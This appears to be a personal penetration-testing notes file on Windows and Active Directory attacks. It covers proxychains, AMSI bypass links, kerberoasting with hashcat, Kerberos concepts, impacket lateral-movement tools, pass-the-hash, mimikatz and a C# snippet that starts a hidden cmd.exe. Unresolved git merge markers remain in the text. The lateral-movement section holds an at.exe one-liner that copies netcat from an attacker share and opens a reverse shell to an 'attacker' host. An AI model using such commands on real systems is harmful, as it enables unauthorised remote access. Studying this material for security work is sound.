


using socks5

```
nano /etc/proxychains.conf 

sock5 ip port user password

proxychains firefox

```

# AMSI bypass

https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/

 Antimalware Scan Interface (AMSI) standard that allows a developer to integrate malware defense in his application. AMSI allows an application to interact with any anti-virus installed on the system and prevent dynamic, script-based malwares from executing

amsi byoass with a single command:
https://news.sophos.com/en-us/2021/06/02/amsi-bypasses-remain-tricks-of-the-malware-trade/


# kerberoasting 

cracking hashes offline using hashcat 

b4b9b02e6f09a9bd760f388b67351e2b

hashcat hashes.txt -m 1000 -a3 ?1?1?1
=======
# looking at ad enumeration

even without an ad user cann connect to a workgroup
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology

## kerberoast attacks

Kerberos
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberos-authentication

<<<<<<< HEAD
Firstly, Kerberos is an authentication protocol, not authorization. In other words, it allows to identify each user, who provides a secret password, however, it does not validates to which resources or services can this user access.

Agents
Several agents work together to provide authentication in Kerberos. These are the following:
Client or user who wants to access to the service.
AP (Application Server) which offers the service required by the user.
KDC (Key Distribution Center), the main service of Kerberos, responsible of issuing the tickets, installed on the DC (Domain Controller). It is supported by the AS (Authentication Service), which issues the TGTs.

Encryption keys
There are several structures handled by Kerberos, as tickets. Many of those structures are encrypted or signed in order to prevent being tampered by third parties. These keys are the following:
KDC or krbtgt key which is derivate from krbtgt account NTLM hash.
User key which is derivate from user NTLM hash.
Service key which is derivate from the NTLM hash of service owner, which can be a user or computer account.
Session key which is negotiated between the user and KDC.
Service session key to be use between user and service.

Tickets
The main structures handled by Kerberos are the tickets. These tickets are delivered to the users in order to be used by them to perform several actions in the Kerberos realm. There are 2 types:
The TGS (Ticket Granting Service) is the ticket which user can use to authenticate against a service. It is encrypted with the service key.
The TGT (Ticket Granting Ticket) is the ticket presented to the KDC to request for TGSs. It is encrypted with the KDC key.


# lateral movement

https://hackmag.com/security/lateral-guide/

approach

sieze control over the domain controllers
reach to isolated critical network segments
search for critical information stored in a certain PC

impacket tools
MSRPC - smb via named pipes
psexec.exe - no av risk, legitimate
psexec.py - from impacket or services.py for manual entering of commands
winexe
smbexec.py - just for msrp.py
atexec.py/ at.exe this helps in remote schedule tasks
`at.exe \\target 13:37 "cmd /c copy \\attacker\a\nc.exe && nc -e \windows\system32\cmd.exe attacker 8888"`
reg.exe - writing to registry remotely
dcomexec.py - wmiexec
wmi
sc.exe
winrm - evilwinrm
winrs.exe and powershell
xfreerdp
GP

### Pass the hash

without cracking the password we can get:



kali linux has many pth - pass the hash tools


# dumping credentials with mimikatz

https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/

windows defender credential Guard prevents access to LSASS





# proxychain
open `/etc/proxychains.conf`
add `socks5 ip port username password` to the end
run with `proxychains ping whatever`

or using foxy proxy to set up a proxy

# C# execution of commands

```C#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace console_csharp
{
    class Program
    {
        static void Main(string[] args)
        {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
            startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
            startInfo.FileName = "cmd.exe";
            startInfo.Arguments = "";
            process.StartInfo = startInfo;
            process.Start();
        }
    }
}
```


